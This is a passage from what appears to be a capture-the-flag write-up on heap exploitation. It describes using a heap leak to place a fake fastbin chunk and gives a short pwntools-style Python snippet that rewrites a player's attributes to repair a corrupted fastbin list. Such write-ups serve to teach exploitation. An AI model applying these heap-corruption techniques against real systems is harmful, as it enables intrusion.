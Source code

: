 ![s9](pics/s9-edit.png)

Using heap leak address it is possible to calculate the offset for the new fake chunk. In this case +0x8 OFFSET is chosen. It will not be perfectly aligned, but it is not a requirement. When looking at the fastbin structure now, it can be observed that the fastbin list is broken. The last element has size of 0x0000000600000006 and FD is 0x0000000600000006. Obviously these are the PlayerG's attributed that have been assigned. PlayerG is still active, therefore it is easy to fix it, even with atoi() restrictions discussed earlier. 

```python
	log.info("Select Player G")
	select_player(1)

	log.info("Overwrite Player G data for proper size and null FD ")
	edit_player_attack(33)
	edit_player_defense(0)
	edit_player_speed(0)
	edit_player_precision(0)
```
